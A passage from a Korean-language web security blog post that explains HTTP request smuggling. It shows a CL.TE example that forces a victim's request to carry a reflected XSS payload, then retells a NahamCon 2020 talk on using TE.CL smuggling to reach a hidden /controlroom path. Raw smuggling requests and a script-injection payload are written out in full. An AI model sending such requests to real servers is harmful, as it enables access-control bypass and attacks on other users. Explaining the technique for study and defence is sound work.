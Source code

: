 
먼저 위의 예시는 CL.TE 공격이다. Content-Length로 인해 `SAML=a"<script>alert(1)</script>`까지 Back-End로 전달될 것이다. 그 다음 Transfer-Encoding으로 인해 `POST /index.php HTTP/1.1 ~~ alert(1)</script>`은 Back-End에 남아 피해자의 요청이 이어지기를 기다릴 것이다. 피해자의 요청 `POST / HTTP/1.1 ...`이 오면, `POST /index.php HTTP/1.1 ~~ alert(1)</script>` 뒤에 붙어, 강제로 RXSS 요청을 보내, XSS를 실행시킬 것이다.

```
HTTP/1.1 200 OK
…
<input name="SAML"   value="a"><script>alert(1)</script>
0

POST / HTTP/1.1
Host: saas-app.com
Cookie: …
"/>
```

**Going Beyond '404'**

HTTP Request Smuggling은 단순히 상대방을 강제화 하는데서 끝나지 않는다. 2020년에 있었던 NahamCon2020에서 Evan Custodio는 HTTP Request Smuggling으로 가능한 Practical Attack들에 대해서 설명을 했다. 그중에서 `404 Not Found`(실제로 존재하지만 일반 유저가 접근 못하게 막은 URI)로 일반 유저가 접근 할 수 없는 디렉토리의 정보를 읽는 방법에 대해서 설명하였다.

먼저 'example.com' (예시) 사이트에서 HTTP Request Smuggling 공격을 시도해보고 TE.CL이 적용된다는 사실을 알게되었다. 그러나 불행하게도 공격은 Self-Impact로, 자기 자신한테만 영향을 끼친다는 사실을 타 IP로 공격이 통하는지 Testing하다 알게되었다.
그 후 Evan Custodio는 'robots.txt'파일을 살펴보았다.

```
User-agent: *
Disallow: /account.jsp
Disallow: /api
Disallow: /controlroom
Disallow: /sales
```

그리고 /controlroom URI에 집적 접속해본 결과 `404 Not Found`가 떴다.

![/assets/img/20220905/Untitled%2017.png](/assets/img/20220905/Untitled%2017.png)

TE.CL HTTP Request Smuggling 공격이 통하기 때문에, 호기심에 해당 도메인에 자기 자신한테 공격을 시도해보았다. 

```
POST / HTTP/1.1
Transfer-Encoding: chunked
Host: example.com
Content-Length: 4

d3
GET /controlroom HTTP/1.1
Host: example.com
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Content-Type: application/x-www-form-urlencoded
```